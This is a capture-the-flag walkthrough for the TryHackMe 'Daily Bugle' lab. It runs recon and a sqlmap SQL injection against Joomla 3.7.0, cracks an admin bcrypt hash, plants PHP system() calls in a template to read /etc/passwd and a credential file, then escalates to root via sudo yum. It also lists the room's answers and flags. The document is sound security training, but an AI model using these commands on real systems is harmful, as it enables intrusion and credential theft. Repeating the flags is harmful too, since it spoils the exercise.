 # Daily Bugle Walkthrough
### Link
- https://tryhackme.com/room/dailybugle
---
### Task 1 - Deploy
**Question**
###### Who robbed the bank?
**Answer**
###### spiderman
---
### Task 2 - Obtain user and root
1. Reco
- NMAP
```shell
nmap -sC -sV [IP] 
Result:
--> Port 22/80/3306 opened
--> Port 3306: MariaDB
```
[DailyBugle_1.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_1.png)
- Gobuster
```
gobuster dir -u http://[IP]:80 -w [path to wordlist]
Directories found:
/images
/templates
/media
/modules
/bin
/plugins
/includes
/language
/components
/cache
/libraries
/tmp
/layouts
/administrator
```
[DailyBugle_2.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_2.png)
- Joomscan

We know **Joomla** is installed.
We have an interesting tool : joomscan (https://www.kali.org/tools/joomscan/)

```
joomscan -u [IP]
```
[DailyBugle_3.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_3.png)

**Question**
###### What is the Joomla version?
**Answer**
###### Joomla 3.7.0

2. Find and use an exploit

With the Joomla version, we can try to find an exploit
```
searchsploit joomla 3.7.0
Result:
Joomla! 3.7.0 - 'com_fields' SQL Injection         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Sit | php/webapps/43488.txt
```

So let's now focus on the first one : SQL Injection
Explore the txt file to understand the exploit
```
searchsploit -x php/webapps/42033.txt
```
[DailyBugle_4.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_4.png)

We have a beautiful sqlmap commandline to help us ^_^

3. SQLMAP 
```
SQLMAP:
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
*Info* : I don't use the option *--level=5* to perform the command to obtain the result more faster.
[DailyBugle_5.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_5.png)

Now, let's check all tables 
```
sqlmap -u "http://10.10.59.102/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```
[DailyBugle_6.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_6.png)

We found too many tables: 72
Let's focus on __schemas , __session , __users , __user_keys
After few research, only **__users** give us interesting informaiton.
```
sqlmap -u "http://10.10.27.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump

Result:
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| id  | name       | email               | params  | password                                                     | username |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| 811 | Super User | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
```
[DailyBugle_7.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_7.png)

We have the hash password for the **Super User** : jonah

4. Decrypt the password
- Firt : find the hash type
**$2y$**10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm 
- Second : search in Internet what is this type
**bcrypt**
- Thrid : Use john and decrypt the password
    - Create a file and copy/paste the hash
    - Use john
```
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash_jonah
```
[DailyBugle_8.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_8.png)

**Question**
###### What is Jonah's cracked password?
**Answer**
###### spiderman123

5. Joomla

Let's navigate in the administration portal.
User --> just jonah is here with super user privileges
User Groups --> Only 1 user (Jonah) is here
[DailyBugle_9.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_9.png)

Now let's move to **Configuration/Global** --> Nothing really special
Move to **Configuration/Templates** --> **One Template is used for allpages: Protostar**. Good information. We probably use this template to gather more informaiton.

[DailyBugle_10.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_10.png)

We can edit this template to see if we can exploit it by adding some code. 

For that: 
- Click on Templates and select Protostar [DailyBugle_11.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_11.png)
- Edit index.php [DailyBugle_12.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_12.png)
- Add the line [DailyBugle_13.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_13.png): 
```
system("cat /etc/passwd")
```
- Save and refresh the Home page
**Finding** : Jonah Jameson:/home/jjameson:/bin/bash

Now we can try to find some information in configuration.php
- Add the line : 
```
system("cat configuration.php")
```
**Finding** : public $user = 'root'; public $password = 'nv5uz9r3ZEDzVjNu'

6. SSH

With the user **jjameson** and this password **nv5uz9r3ZEDzVjNu**, we can SSH the server.
[DailyBugle_14.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_14.png)

**Question**
###### What is the user flag?
**Answer**
###### 27a260fe3cba712cfdedb1c86d80442e

7. Privilege escalation

- First: check what actions can do jjameson [DailyBugle_15.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_15.png)
```
sudo -l
Result: jjameson can execute yum
```
- Second: check https://gtfobins.github.io/gtfobins/yum/
- Third: Create a file and copy/paste all command from the website [DailyBugle_16.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_16.png)
- Fourth : Make this file executable
```
chmod +x yum.sh
```
- Fifth : execute
```
./yum.sh
```
- Sixth: We are **root**
[DailyBugle_17.png](https://github.com/LNB283/THM/blob/main/HARD/Daily%20Bugle/Pictures/DailyBugle_17.png)

**Question**
###### What is the root flag?
**Answer**
###### eec3d53292b1821868266858d7fa6f79





